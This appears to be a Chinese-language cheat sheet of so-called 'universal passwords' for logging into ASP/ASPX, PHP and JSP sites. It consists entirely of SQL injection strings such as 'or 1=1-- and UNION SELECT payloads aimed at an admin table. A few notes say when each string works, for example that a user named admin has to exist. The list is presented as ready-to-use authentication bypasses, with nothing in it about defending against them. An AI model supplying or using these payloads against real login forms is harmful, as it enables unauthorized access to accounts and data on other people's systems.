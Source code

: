 ### asp aspx万能密码

1.  "or "a"="a
2.  ')or('a'='a
3.  or 1=1--
4.  'or 1=1--
5.  a'or' 1=1--
6.  "or 1=1--
7.  'or'a'='a
8.  "or"="a'='a
9.  'or''='
10.  'or'='or'
11.  1 or '1'='1'=1
12.  1 or '1'='1' or 1=1
13.  'OR 1=1%00
14.  "or 1=1%00
15.  'xor
16.  新型万能登陆密码

​     用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin）
​     密码 1

​     Username=-1%cf' union select 1,1,1 as password,1,1,1 %23
​     Password=1

  17 ..admin' or 'a'='a 密码随便

###  PHP万能密码

1.   'or'='or'
2.   'or 1=1/* 字符型 GPC是否开都可以使用
3.   User: something    Pass: ' OR '1'='1

 

### jsp万能密码

1.   1'or'1'='1
2.   admin' OR 1=1/*
3.   用户名：admin 系统存在这个用户的时候 才用得上   密码：1'or'1'='1